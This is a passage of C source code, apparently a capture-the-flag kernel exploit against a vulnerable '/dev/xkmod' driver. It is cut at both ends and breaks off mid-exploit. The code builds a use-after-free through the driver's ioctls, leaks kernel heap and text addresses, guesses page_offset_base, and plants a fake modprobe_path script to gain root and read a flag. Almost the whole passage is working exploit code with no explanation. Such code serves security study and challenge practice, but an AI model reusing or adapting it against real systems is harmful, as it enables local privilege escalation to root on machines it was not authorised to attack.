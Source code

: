 ```c
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void allocBuf(int dev_fd, struct Data *data)
{
    ioctl(dev_fd, 0x1111111, data);
}

void editBuf(int dev_fd, struct Data *data)
{
    ioctl(dev_fd, 0x6666666, data);
}

void readBuf(int dev_fd, struct Data *data)
{
    ioctl(dev_fd, 0x7777777, data);
}

int main(int argc, char **argv, char **envp)
{
    int dev_fd[5], root_script_fd, flag_fd;
    size_t kernel_heap_leak, kernel_text_leak;
    size_t kernel_base, kernel_offset, page_offset_base;
    char flag[0x100];
    struct Data data;

    /* fundamental works */
    bindCore(0);

    for (int i = 0; i < 5; i++) {
        dev_fd[i] = open("/dev/xkmod", O_RDONLY);
    }

    /* create fake modprobe_path file */
    root_script_fd = open(ROOT_SCRIPT_PATH, O_RDWR | O_CREAT);
    write(root_script_fd, root_cmd, sizeof(root_cmd));
    close(root_script_fd);
    system("chmod +x " ROOT_SCRIPT_PATH);

    /* construct UAF */
    data.ptr = malloc(0x1000);
    data.offset = 0;
    data.length = 0x50;
    memset(data.ptr, 0, 0x1000);

    allocBuf(dev_fd[0], &data);
    editBuf(dev_fd[0], &data);
    close(dev_fd[0]);

    /* leak kernel heap addr and guess the page_offset_base */
    readBuf(dev_fd[1], &data);
    kernel_heap_leak = data.ptr[0];
    page_offset_base = kernel_heap_leak & 0xfffffffff0000000;

    printf("[+] kernel heap leak: 0x%lx\n", kernel_heap_leak);
    printf("[!] GUESSING page_offset_base: 0x%lx\n", page_offset_base);

    /* try to alloc fake chunk at (page_offset_base + 0x9d000 - 0x10) */
    puts("[*] leaking kernel base...");

    data.ptr[0] = page_offset_base + 0x9d000 - 0x10;
    data.offset = 0;
```